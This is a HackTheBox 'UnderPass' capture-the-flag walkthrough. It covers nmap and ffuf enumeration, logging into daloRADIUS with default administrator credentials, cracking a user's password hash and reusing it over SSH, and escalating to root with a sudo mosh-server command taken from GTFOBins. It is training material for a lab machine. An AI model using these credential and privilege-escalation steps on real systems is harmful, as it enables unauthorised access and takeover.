






# UnderPass - Easy

Target IP: **10.129.231.213**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.231.213 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.52. The ```http-title``` scan also tells us that it is the default installation page for Apache2.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



Enumerating gets us an unusual ```/daloradius``` directory, but we are forbidden to view the resource.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukpp4tcpfh]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.129.231.213/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.231.213/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

daloradius              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 12ms]
index.html              [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 13ms]
:: Progress: [4750/4750] :: Job [1/1] :: 136 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

Enumerating on ```/daloradius``` gives us interesting hits as well.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukpp4tcpfh]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.231.213/daloradius/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.231.213/daloradius/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

library                 [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 13ms]
doc                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 13ms]
app                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 12ms]
contrib                 [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 14ms]
ChangeLog               [Status: 200, Size: 24703, Words: 3653, Lines: 413, Duration: 15ms]
setup                   [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 12ms]
LICENSE                 [Status: 200, Size: 18011, Words: 3039, Lines: 341, Duration: 13ms]
FAQS                    [Status: 200, Size: 1428, Words: 247, Lines: 43, Duration: 13ms]
:: Progress: [87651/87651] :: Job [1/1] :: 3125 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

Checking ```/daloradius/ChangeLog```, we can see the version is 1.1.3.



```/FAQS``` however, is for version 0.8.



There are publicly disclosed vulnerabilities for this version of Daloradius, but they all require authentication. This is a bit confusing, because we don't have permissions to view the actual ```/daloradius``` page, which is the login page.

Enumerating yet again on ```/daloradius/app``` gives us hits.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ukpp4tcpfh]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.231.213/daloradius/app/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.231.213/daloradius/app/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

common                  [Status: 301, Size: 332, Words: 20, Lines: 10, Duration: 13ms]
users                   [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 14ms]
operators               [Status: 301, Size: 335, Words: 20, Lines: 10, Duration: 12ms]
:: Progress: [87651/87651] :: Job [1/1] :: 3174 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

```/users``` redirects us to the login page.



```/operators``` redirects us to another login page, perhaps for admins (operators).

The default admin credentials for Daloradius, ```administrator:radius``` works on this login page, and we are redirected to the admin panel.



We can see a user listed with its password hash.



Hashcat is successful in cracking the hash.

```412dd4759978acfcc81deab01b382403:underwaterfriends```

Let's try to log in with this password as ```svcMosh```.

It works!

```
svcMosh@underpass:~$ whoami
svcMosh
```

We can proceed to get the user flag from here.

## Root Flag

```svcMosh``` can run ```/usr/bin/mosh-server``` as ```root```.

```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

This is listed on GTFOBins. We can start up a mosh server as ```root```, then connect to it, asking it to run ```/bin/bash``` when we connect. Since the server is ran as ```root```, we are able to escalate privileges.

After running this command, we get ```root```.

```
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" localhost /bin/bash
The authenticity of host 'localhost (<no hostip for proxy command>)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Warning: SSH_CONNECTION not found; binding to any interface.
```

```
root@underpass:~# whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
